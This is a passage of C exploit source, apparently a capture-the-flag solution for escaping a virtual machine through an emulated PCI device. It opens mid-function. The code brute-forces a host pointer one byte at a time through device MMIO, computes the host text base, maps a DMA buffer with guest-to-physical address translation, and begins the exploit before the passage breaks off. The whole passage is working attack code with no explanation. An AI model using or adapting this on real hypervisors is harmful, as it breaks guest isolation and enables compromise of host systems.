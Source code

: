 ```
{
    for(int t = 0; t < 6; t++){
        for(uint64_t v = 0; v < 256; v++){
            mmio_write(0x4, 'B');
            mmio_write(0x4, 'L');
            mmio_write(0x4, 'U');
            mmio_write(0x4, 'E');

            uint64_t tmp = pointer;
            for(int k = 1; k <= t; k++){
                char cur_chr = (tmp >> ((k-1)*8)) & 0xff;
                mmio_write(0x4, cur_chr);
            }
            
            mmio_write(0x4, v);
            uint32_t cur_idx = mmio_read(0x14);
            if(cur_idx == 0){
                continue;
            }
            else{
                // else we have the right value
                pointer = (pointer | (v << (t * 8)));
                // printf("%p\n", (void*)pointer);
                break;
            }               
        }
    }
}

int main(int argc, char *argv[])
{
    
    // Open and map I/O memory for the strng device
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("mmio_fd open failed");

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
        die("mmap mmio_mem failed");

    printf("mmio_mem @ %p\n", mmio_mem);

    // Allocate DMA buffer and obtain its physical address
    userbuf = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    if (userbuf == MAP_FAILED)
        die("mmap");

    mlock(userbuf, 0x1000);
    phy_userbuf=gva_to_gpa(userbuf);
    printf("user buff virtual address: %p\n",userbuf);
    printf("user buff physical address: %p\n",(void*)phy_userbuf);

    bruteforce_pointer();
    uint64_t text = pointer - 0x50915d;
    printf("text address: %p\n", (void*)text);

    printf("[*] start exploiting now ...\n");
    struct req_head *req = mmap(0, sizeof(struct req_head) + 6, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
  
    mlock(req, sizeof(struct req_head) + 6);

```